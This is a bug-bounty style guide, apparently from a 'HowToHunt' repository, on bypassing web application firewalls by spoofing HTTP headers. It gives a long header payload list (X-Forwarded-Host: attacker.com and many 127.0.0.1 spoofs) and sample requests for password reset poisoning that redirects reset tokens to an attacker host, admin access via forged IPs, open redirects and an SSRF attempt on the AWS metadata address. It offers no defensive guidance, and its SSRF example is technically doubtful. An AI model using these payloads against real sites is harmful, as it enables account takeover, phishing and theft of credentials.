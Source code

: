 # **WAF Bypass Using Headers (Password Reset Poisoning)**

## **Introduction**
Web Application Firewalls (WAFs) are commonly used to filter and monitor HTTP traffic to protect web applications from attacks. However, attackers can bypass WAFs by **manipulating HTTP headers**. One such attack involves **Password Reset Poisoning**, where an attacker leverages forged headers to manipulate the behavior of the application, particularly in password reset functionalities.

This document outlines techniques to **bypass WAFs** using custom headers, including examples of how they can be used in **password reset poisoning** and other similar attacks.

---

## **How Does WAF Header Manipulation Work?**
Many web applications rely on **HTTP headers** to determine a user's origin, session, or intended destination. By modifying these headers, an attacker can:
- Trick the application into believing the request is coming from a trusted source.
- Redirect password reset links to an attacker's domain.
- Bypass security measures by manipulating `X-Forwarded-For`, `Referer`, or `Origin` headers.
- Spoof a legitimate user by injecting headers used for authentication.

Some applications also have misconfigured **reverse proxies**, which trust certain headers to determine the client’s IP address, allowing **internal access** through header manipulation.

---

## **Common Headers Used for WAF Bypass**
Below are the most commonly used headers for WAF bypass and server-side manipulation:

```
X-Forwarded-Host: attacker.com
X-Forwarded-Port: 443
X-Forwarded-Scheme: https
Origin: null
nullOrigin: [siteDomain].attacker.com
X-Frame-Options: Allow
X-Forwarded-For: 127.0.0.1
X-Client-IP: 127.0.0.1
Client-IP: 127.0.0.1
Proxy-Host: 127.0.0.1
Request-Uri: 127.0.0.1
X-Forwarded: 127.0.0.1
X-Forwarded-By: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwarded-For-Original: 127.0.0.1
X-Forwarded-Host: 127.0.0.1
X-Forwarded-Server: 127.0.0.1
X-Forwarder-For: 127.0.0.1
X-Forward-For: 127.0.0.1
Base-Url: 127.0.0.1
Http-Url: 127.0.0.1
Proxy-Url: 127.0.0.1
Redirect: 127.0.0.1
Real-Ip: 127.0.0.1
Referer: 127.0.0.1
Referrer: 127.0.0.1
Refferer: 127.0.0.1
Uri: 127.0.0.1
Url: 127.0.0.1
X-Host: 127.0.0.1
X-Http-Destinationurl: 127.0.0.1
X-Http-Host-Override: 127.0.0.1
X-Original-Remote-Addr: 127.0.0.1
X-Original-Url: 127.0.0.1
X-Proxy-Url: 127.0.0.1
X-Rewrite-Url: 127.0.0.1
X-Real-Ip: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Custom-IP-Authorization: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Original-Url:
X-Forwarded-Server:
X-Host:
X-Forwarded-Host:
X-Rewrite-Url:
```

---

## **Practical Attack Scenario: Password Reset Poisoning**
### **Step 1: Identifying the Vulnerability**
- Many web applications send password reset links based on the **Host** or **Origin** headers.
- If these headers are **not validated properly**, an attacker can **poison** the password reset URL.

### **Step 2: Sending a Manipulated Request**
**Example Request:**
```http
POST /reset-password HTTP/1.1
Host: victim-site.com
X-Forwarded-Host: attacker.com
X-Forwarded-For: 127.0.0.1
X-Real-IP: 127.0.0.1
Content-Type: application/x-www-form-urlencoded

email=victim@victim.com
```

### **Step 3: Intercepting the Response**
If the server does not validate the `X-Forwarded-Host` header, it might send a **password reset link to the victim** that looks like this:

```
https://attacker.com/reset?token=abcdef123456
```

Now, when the victim clicks on the reset link, they will be redirected to the attacker's site, where their credentials can be **stolen via phishing**.

---

## **Other Uses of WAF Header Manipulation**
### **1. Bypassing IP-Based Restrictions**
- Some web applications **block access** based on the user’s IP address.
- If the WAF **trusts headers** like `X-Forwarded-For`, an attacker can **spoof their IP** and gain access.

**Example Request:**
```http
GET /admin HTTP/1.1
Host: target.com
X-Forwarded-For: 192.168.1.100
```
- If `192.168.1.100` is a **trusted internal IP**, access will be granted.

---

### **2. Exploiting Open Redirects**
Some applications use `Referer`, `Redirect`, or `X-Forwarded-Host` to construct redirect URLs.

**Example Request:**
```http
GET /login?redirect=https://victim.com HTTP/1.1
Host: target.com
X-Forwarded-Host: attacker.com
```
- The victim is redirected to a phishing page **hosted by the attacker**.

---

### **3. SSRF (Server-Side Request Forgery) Exploitation**
Some applications **fetch remote resources** based on user input. By modifying headers, an attacker can:
- Force the application to fetch **internal resources**.
- Target **AWS metadata services** or other sensitive internal services.

**Example Request:**
```http
GET /api/v1/fetch HTTP/1.1
Host: target.com
X-Forwarded-For: 169.254.169.254
X-Real-IP: 169.254.169.254
```
- If the application fetches the resource using these headers, it could **leak AWS credentials** or **internal system information**.

---

## **Author**
- **[Virdoex_hunter](https://twitter.com/Virdoex_hunter)**
- **[remonsec](https://x.com/remonsec)**

---
*Enhanced and reformatted for HowToHunt repository by [remonsec](https://x.com/remonsec)*
